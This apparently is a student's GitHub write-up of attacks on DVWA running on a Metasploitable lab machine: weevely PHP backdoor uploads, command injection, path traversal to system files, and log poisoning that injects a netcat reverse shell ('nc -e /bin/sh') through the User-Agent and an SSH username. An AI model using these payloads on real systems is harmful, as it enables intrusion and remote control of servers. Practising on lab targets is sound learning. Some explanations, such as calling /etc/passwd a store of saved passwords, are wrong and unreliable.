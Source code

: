 # basic vulnerabilities in Metasploitable
## File Upload Vulnerability
- weevely is a tool used for opening the backdoors and to access the website.
```
weevely generate 123456 /root/shell.php
```
- this creates a php file which is used to upload and open backdoors
- after uploading, run the following command
- `weevely (respective url) 123456`
- now from the terminal we can open the backdoor that is  `cd ..` to get back and then we can access as we want.
- burpsuite is used to interpt the website being executed with the help of proxy.

> __low__ - any file can be uploaded i.e., shell.php
>![Screenshot 2024-04-12 223232](https://github.com/stellados53/kali_commands/assets/142677726/dbc0885c-2112-4832-989f-a6c8dba0eb44)
> 
> __medium__ - we rename the file from shell.php to shell.jepg i.e., shell.jpeg and upload it using bruiteforce by changing the filename to php.
>![Screenshot 2024-04-12 224041](https://github.com/stellados53/kali_commands/assets/142677726/9d3a9640-817f-446f-91cc-f09b4c5d2baf)
> 
> __high__ - we change the file type to shell.php.jpeg and upload and then expoit.
> ![Screenshot 2024-04-12 224407](https://github.com/stellados53/kali_commands/assets/142677726/e202b0e8-1ee3-44e0-8f28-a04c6d404255)
- overall output will be..
 ![Screenshot 2024-04-12 224454](https://github.com/stellados53/kali_commands/assets/142677726/5c02d3fb-e53e-4ed3-85c7-477390b703c7)


<h3 align="center"> ... </h3> 

## Code Execution Vulnerability

- open any searchable website (dvwa- command execution)
- run the following command
```
nc -vv -l -p 8080
```
![Screenshot 2024-04-09 232801](https://github.com/stellados53/kali_commands/assets/142677726/7d1cc4d5-5310-4934-84ba-2c44d0124a0e)

> nc   = netcat tool this is used to use and connect the computer to the website.
> 
> -vv  = it is just a verbose mode, which retireve more output.
> 
> -l   = Listen mode, used to create a server that listens for incoming connections.
> 
> -p   = Specifies the source port number.
> 
> 8080 = port number.
- Now you can execute any command of kali linux such as pwd, ls -la.
- the execution will be done.

> __low__ - in searchbox END WITH ";" AND RUN THE COMMAND ACCORDING TO THE WEBSITE OS.MOST IMPORTANT IF THE IP IS 192.168.11.129, SUBTRACT THE LAST NUMBER -1 THAT IS 192.168.11.128.
>
> __medium__ - it cannot run two commands using ";" so we use "|" for the exploit.
>![Screenshot 2024-04-12 223232](https://github.com/stellados53/kali_commands/assets/142677726/d22e5048-15cd-491b-817f-f2a79979e8d3)
>
> __high__ is not even possible

<h3 align="center"> ... </h3> 

## File Inclusion Vulnerability
- it allows you to read  any file in the same server.
- access files outside www directory.
- it is used to get the reverse connection of the webserver.
- generally to get the commands to be executed in the kali linux we use  `cat etc/passwd`, the same we use in the file url to extract all the saved passwds.
```
http://192.168.11.129/dvwa/vulnerabilities/fi/?page=/../../../../../etc/passwd
```
- by using this command we can get the all saved passwords saved in the webserver.
- ![Screenshot 2024-04-12 222928](https://github.com/stellados53/kali_commands/assets/142677726/615af2ec-4ac3-4ca6-a33b-28a323ed794a)
- by modifing the useragent from mozilla to `<?phpinfo();?>` using bruiteforce proxy(header)..we get the php information about the website
- ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/faab1ae4-f1dc-4578-9098-b2995c78dc04)
- by modifing the useragent to `<?passthru("nc -e /bin/sh 192.168.11.128 8888");?>` in the bruiteforce header for the connect of the website..and the terminal of kali linux `nc -vv -l -p 8888` to make connection.
- ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/26b2674a-e047-4c5f-8f72-bc938ca5ed35)
### Methods Of Exploitation
- Now as reference from the above use the another executable urls.
 ```
http://192.168.11.129/dvwa/vulnerabilities/fi/?page=/../../../../..//proc/self/environ
```
```
http://192.168.11.129/dvwa/vulnerabilities/fi/?page=/../../../../../var/log/auth.log
```
```
http://192.168.11.129/dvwa/vulnerabilities/fi/?page=/../../../../../var/log/apache2/access.log
```
- In `proc/self/environ`..it retrieves the information about the client information.
> ![Screenshot 2024-04-12 231736](https://github.com/stellados53/kali_commands/assets/142677726/ab250e34-700e-49c3-bcb9-500b88edd38c)
>
- In `var/log/auth.log`..it retrieves all the login attempts to the webserver.
- In the split the terminal into 2 the one contains the the connection command that is `nc -vv -l -p 8888` and the other will be `ssh "<?passthru('nc -e /bin/sh 192.168.11.128 8888');?>@192.168.11.128`
- But the passthru command contain spaces that is between nc and -e etc..so we use decoder from the bruiteforce to encode the command as base64 to get a non-indent space line
> ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/a13b5290-c212-4249-9e31-a40e1a2b3914)
> 
- now..run the command as per the image.
> ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/b7b7144e-e541-40ee-85f1-86ca80ac5fae)
> 
- then we get the final reverse connection to the webserver..
> ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/5ce2bbdf-bd7f-407f-9bbb-7945b1662342)

<h3 align="center"> ... </h3> 

## Remote File Inclusion Vulnerability

- Similar to local file inclusion.
- But allows an attacker read ANY file from ANY server.
- Execute php files from other servers on the current server.
- Store php files on other servers as .txt

- Firstly we should go the the metaspoitable manchine and run.
```
sudo nano /etc/php5/cgi/php.ini
```
- This allows the url for the remote file inclusion.
- ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/2a55caff-d69e-43ee-8980-258d3d95ddef)
- Now run `ctrl+W` this allows you to search any line in the output.
- Now run `allow_url` this searches the allow_urlf as mentioned in the above image.
- Make sure that they both are ON, if not change it and run `ctrl+X` then `Y`.
- Then to save the location `ctrl+T` then select `php.ini`.
- Then click enter.
- Now we have to restart the webserver so that the changes work properly. Run the command.
```
sudo /etc/init.d/apache2 restart
```
- ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/a815f59d-b4a3-4b53-aa9b-41bc7fdaf015)
- FINISHED!!






